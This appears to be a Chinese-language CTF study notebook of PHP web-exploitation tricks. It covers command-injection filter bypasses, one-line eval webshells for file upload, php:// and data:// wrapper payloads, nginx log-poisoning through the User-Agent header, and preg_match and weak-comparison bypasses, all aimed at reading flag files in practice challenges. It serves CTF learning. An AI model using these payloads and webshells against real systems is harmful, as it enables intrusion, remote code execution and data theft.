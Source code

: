 # 笔记

<br><br>

## 杂笔记

<br>

* 在逆向(星号)((BYTE*)的时候用宏定义#define BYTE unsigned char即可正常使用

<br>

* system("tac flag.php")用来读取文件内容;

<br>

* ?c=system("tac%20fla(星号)")意思是c=system("tac flag");

<br>

### 在linux的shell里：
* ls /（查看所有目录)
* ls /home(进入home文件夹)
* cat /home/flag.txt(打开flag.txt)
* tac用法同上
* ls ../输出上一级目录的内容

<br><br>

## 命令绕过  

<br>

### 黑洞绕过：system($c." >/dev/null 2>&1");
* 它只会让分号后面的指令进入黑洞，所以这里直接绕过

* 双写分号绕过?c=tac f*;ls
* 双写&&绕过?c=tac f*%26%26ls（注：星号被绕过可以用问号）（[0-9]和%的过滤是不会过滤%26之类的）（）

* 带行号绕过?c=nl<fla''g.php%7C%7Cls(此方法可能要右键看源代码)

* 有$的情况下可以重命名flag.php成txt再直接访问:先执行?c=mv${IFS}fla?.php${IFS}a.txt%7C%7Cls 然后使用ls||ls看看有没有命名成功。成功后直接访问a.txt

* 其他注：?c=ls${IFS}/||ls查看根目录（ls /）

* ?c=cp${IFS}/fla?${IFS}/var/www/html/b.txt（将根目录（ls /）下的flag复制到可以直接在url的目录）





### 直接写php时：
#### 文件上传
* 经典一句话木马：<?php @eval($_POST[a]); ?>
* 短标签（过滤php）绕过：<?=eval($_POST[a]);?>（需要配合user.ini打开权限）
* ; 分号过滤：直接删除即可
* 过滤了（） ：使用tac
* 日志文件上传(用于过滤括号)：<?=include'/var/l'.'og/nginx/access.lo'.'g'?>,可以先访问url＋根目录，如果出现日志则包含成功.
* 非蚁剑连接：直接上传带有命令的图片马，访问马所在的目录

#### 过滤
* 过滤[ ]:<?=eval($_POST{a});?>(改成花括号)
* 过滤分号’；‘：<?=`cat ../flag*`?> <?=`tac ../f*`?> <?=`nl ../flag*`?>查看源码得flag
* 过滤括号：<?=`tac fl*`?>




<br>

### 直接eval()传参时：
* 特殊字符:"$""&"如果只是对c进行过滤，就可以通过包含另一个函数来绕过
* 做题前先看看对谁过滤，再看如何过滤
* c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
* c=include$_GET[1]?>&1=data://text/plain,<?php system("nl flag.php")?>
* c=$nice=include$_GET["url"]?>&url=php://filter/read=convert.base64-encode/resource=flag.php
* 仅括号
* c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
* c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php");
* c=show_source(next(array_reverse(scandir(pos(localeconv())))));
* c=highlight_file(next(array_reverse(scandir(dir))));
<br>

### 当include(c)时：直接使用协议绕过
* c=data://text/plain,<?php system('tac f*');?>
* 伪协议绕过:?u=php://filter/read=convert.base64-encode/resource=flag.php(任何打开文件，读取文件的操作都可以使用伪协议绕过)、
* ?filename=php://filter/convert.utf7.utf7/resource=flag.php

<br>

#### php被过滤的时候:
* ?c=data://text/plain,<?=system("tac fla*")?>
* 注：include()只会处理<?php>里面的内容

<br>

#### $被过滤的时候:
* ?c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
* ?c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php");

<br>

#### 日志文件包含：（抓包改UA，在UA末尾加东西）（用于include）
* 如：
````
GET /?file=/var/log/nginx/access.log HTTP/1.1
Host: 4e9bb3c0-1021-427e-81a3-42e5e6e13c39.challenge.ctf.show
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0<?php eval($_GET[2]);?>       \\在这里改噢
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: UM_distinctid=17ffcdc88eb73a-022664ffe42c5b8-13676d4a-1fa400-17ffcdc88ec82c
Connection: close
````



<br>

* 可以直接命令执行即可也可以用webshell后门工具连接

* ?file=/var/log/nginx/access.log&2=system('ls /var/www/html');phpinfo();

* ?file=/var/log/nginx/access.log&2=system('tac /var/www/html/fl0g.php');phpinfo();


<br>

### 条件竞争漏洞：（相关：2023年梦极光线上赛web）（文件上传，文件包含等都能用）
- [条件竞争](https://www.freebuf.com/articles/web/275557.html)


<br><br>



## php特性绕过


<br>

### preg_match绕过:
* preg_match第二个参数为0时，会将0x开头当作十六进制,0开头当作八进制
* 多行绕过 php%0aPHP(用于多次preg_match)
* strpos($num, "0")意为开头不能为0，只需要加入%0a（换行）或%09（空格）即可绕过
#### 关于正则匹配preg_match(‘/^O:\d+/‘)的绕过的几种方法：
* 1.利用加号绕过（注意在url里传参时+要编码为%2B）直接在冒号和数字之间加上一个加号比如O:+4:"Demo":2:{s:10:" Demo file";s:8:"fl4g.php";}
* 2.利用数组对象绕过，如 serialize(array($a)); a为要反序列化的对象(序列化结果开头是a，不影响作为数组元素的$a的析构)。(没用过)

<br>

### 强弱比较绕过:

* 数组绕过：a[]=1&b[]=2
* md5撞库: 两个不用的明文各自经过MD5加密后，得到相等的hash值(多用于===)
* is_numeric()绕过:is_numeric()函数判断为数字时返回true，否则为false。如果数字为1234%00它就会判断为非数字，而在比较时这通常视为1234





<br>

### 其他总结
* 伪协议绕过:?u=php://filter/read=convert.base64-encode/resource=flag.php(任何打开文件，读取文件的操作都可以使用伪协议绕过)











